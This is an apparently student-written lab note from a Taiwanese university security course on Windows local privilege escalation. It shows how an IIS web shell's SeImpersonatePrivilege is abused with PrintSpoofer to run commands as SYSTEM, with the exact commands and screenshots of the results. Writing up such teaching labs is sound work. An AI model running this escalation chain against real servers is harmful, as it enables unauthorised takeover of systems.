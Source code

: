 ```yaml
---
title: NTUSTISC - AD Note - Lab(Hijack Token)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/2. 提升權限"
---
```


# NTUSTISC - AD Note - Lab(Hijack Token)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=M0LV3dBCMCOy58LN&t=3600)

## Background
* 提權方法
    * 利用弱點
    * Hijack Token
        * Tools: [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
        * Support: Windows 8.1/Server 2012 R2/10/Server 2019
        * How to use: `$ PrintSpoofer.exe -c "command"`
    * Guess Password
    * 管理服務
    * 錯誤配置
## Lab Time - 本地提權
### ==Hijack Token(Network Service)==
這邊講師示範的是，如何利用IIS的特殊權限，達成提權。
先解釋一下，如果要使用PrintSpoofer之類的工具有個特殊的條件，就是需要有特殊權限，也就是
:::info
```bash!
$ whoami /priv
```
需要有下列其一權限:
SeImpersonatePrivilege => CreateProcessWithToken()
SeAddignPrimaryToekn => CreateProcessAsUser()
:::
1. whoami /priv
我們先看一下正常使用者的特殊權限有哪些
    ```bash!
    $ whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    特殊權限名稱                  描述               狀況
    ============================= ================== ======
    SeShutdownPrivilege           關閉系統           已停用
    SeChangeNotifyPrivilege       略過周遊檢查       已啟用
    SeUndockPrivilege             從擴充座移除電腦   已停用
    SeIncreaseWorkingSetPrivilege 增加處理程序工作組 已停用
    SeTimeZonePrivilege           變更時區           已停用
    ```
    可以看到上述的權限都沒有在這裏面，也就是說正常的使用者是不會有這兩個權限的，那誰會有這兩個權限呢?需要==impersonation(也就是講師說的切換身分)的人==，詳細的腳本可以看這邊[^iis-windows-impersonation]但今天不會用到，總之IIS就是一個需要做身分切換的角色，所以講師已經在Win10的電腦中設定好IIS，也起用了web shell的功能，我們就可以試看看，在browser中`http://127.0.0.1/cmd.aspx`，他可以直接用IIS的權限執行程式
    ![](https://hackmd.io/_uploads/r1N1LMM03.png)

    ![](https://hackmd.io/_uploads/HySuBGMC2.png)
    從結果來看，他的確具有==SeImpersonatePrivilege==的權限而且已經啟用，那我們就可以直接用PrintSpoofer.exe執行其他指令
2. Use PrintSpoofer.exe
![](https://hackmd.io/_uploads/rkqPUMGA2.png)
從結果來看，我們的確已經提權了，再來可以用講師的指令測試一下權限
`c:\tools\PrintSpoofer64.exe -c "c:\windows\system32\cmd.exe /c whoami > c:\inetpub\wwwroot\tmp.txt"`
這一串指令是利用PrintSpoofer執行cmd.exe再執行whoami的command並寫道tmp.txt中
![](https://hackmd.io/_uploads/rk0pwGzRh.png)
目前權限已經從`iis apppool\defaultapppool`轉換成`nt authority\system`也就是前面說的==本地端真正的最高權限使用者==
## Reference
[^iis-windows-impersonation]:[ [2020鐵人賽] Day29 - 切換身分Impersonation ](https://ithelp.ithome.com.tw/articles/10252658)